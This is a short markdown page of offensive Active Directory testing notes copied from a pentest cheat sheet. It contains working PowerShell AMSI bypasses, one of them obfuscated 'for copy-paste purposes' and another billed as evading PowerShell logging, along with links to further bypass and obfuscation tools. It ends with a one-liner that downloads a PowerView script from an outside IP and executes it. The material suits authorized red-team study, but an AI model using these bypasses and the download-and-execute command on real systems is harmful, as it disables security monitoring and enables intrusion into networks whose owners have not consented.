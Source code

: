 # AD Offensive Testing

{% embed url="https://wadcoms.github.io" %}

> Notes below taken and edited from [https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)

### General <a href="#general" id="general"></a>

### ‘Plain’ AMSI bypass example:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### PowerShell

#### Obfuscation example for copy-paste purposes:

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

#### Another bypass, which is not detected by PowerShell autologging:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```

> More bypasses [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell). For obfuscation, check [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation), or get a custom-generated obfuscated version at [amsi.fail](https://amsi.fail).
>
> #### &#x20;<a href="#powershell-one-liners" id="powershell-one-liners"></a>

### PowerShell one-liners - **Load PowerShell script reflectively** <a href="#powershell-one-liners" id="powershell-one-liners"></a>

#### Proxy-aware:

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```
